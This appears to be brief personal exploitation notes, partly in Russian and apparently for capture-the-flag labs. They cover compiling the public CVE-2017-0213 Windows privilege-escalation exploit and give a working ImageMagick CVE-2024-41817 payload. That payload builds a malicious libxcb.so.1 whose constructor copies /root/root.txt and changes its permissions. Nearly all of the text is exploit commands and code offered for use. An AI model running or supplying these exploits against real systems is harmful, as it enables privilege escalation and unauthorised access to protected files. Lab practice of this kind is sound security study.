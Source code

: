 # CVE

# CVE-2017-0213

https://github.com/WindowsExploits/Exploits/blob/master/CVE-2017-0213/Readme.md

in file cpp
#pragma comment(lib, "Advapi32.lib")

заменить cmd

vcvars64.bat

cl CVE-2017-0213.cpp /DUNICODE /D_UNICODE /EHsc



# ImageMagick---> CVE-2024–41817, которая позволяет выполнять произвольный код, загружая вредоносные общие библиотеки в текущий рабочий каталог при выполнении ImageMagick:
    gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
    #include <stdio.h>
    #include <stdlib.h>
    #include <unistd.h>

    __attribute__((constructor)) void init(){
     system("cp /root/root.txt root.txt; chmod 754 root.txt");
     exit(0);
    } 
    EOF
